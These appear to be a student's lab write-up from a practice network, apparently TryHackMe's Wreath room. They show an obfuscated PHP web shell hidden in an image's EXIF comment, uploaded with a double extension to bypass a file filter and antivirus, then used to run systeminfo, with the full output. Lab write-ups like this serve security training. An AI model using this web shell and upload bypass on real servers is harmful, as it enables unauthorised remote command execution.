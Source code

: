 
We have an upload point which we can use to upload PHP scripts.
But will assume for the time being that Windows Defender is free and comes pre-installed with 
Windows Server.


Will use the tool named https://www.gaijin.at/en/tools/php-obfuscator for AV Evasion

![[Pasted image 20240114165402.png | 500]]

```
<?php $x0=$_GET[base64_decode('d3JlYXRo')];if(isset($x0)){echo base64_decode('PHByZT4=').shell_exec($x0).base64_decode('PC9wcmU+');}die();?>
```
![[Pasted image 20240114165445.png]]

But but but................................................. will have to prevent them from being interpreted as bash variables.
```
<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>
```


Now will make a payload using Exif tool and will keep the payload in the comments
```
exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-sardarji.jpeg.php
```

Will update the comment
![[Pasted image 20240114170127.png]]

Now will try to upload the payload and will see if we are able to access it or not ??

```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php
```
![[Pasted image 20240114170816.png]]

Vollaaaaaaaaaaaaaaaaaaaaa We got a Shell
```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=systeminfo
```
![[Pasted image 20240114171015.png]]
```
�����

Host Name:                 WREATH-PC
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-70000-00000-AA778
Original Install Date:     08/11/2020, 14:55:50
System Boot Time:          14/01/2024, 10:36:40
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.11.amazon, 24/08/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,048 MB
Available Physical Memory: 1,348 MB
Virtual Memory: Max Size:  2,432 MB
Virtual Memory: Available: 1,841 MB
Virtual Memory: In Use:    591 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB4580422
                           [02]: KB4512577
                           [03]: KB4580325
                           [04]: KB4587735
                           [05]: KB4592440
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.200.85.1
                                 IP address(es)
                                 [01]: 10.200.85.100
                                 [02]: fe80::ac20:42ad:7e30:7fcf
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

```


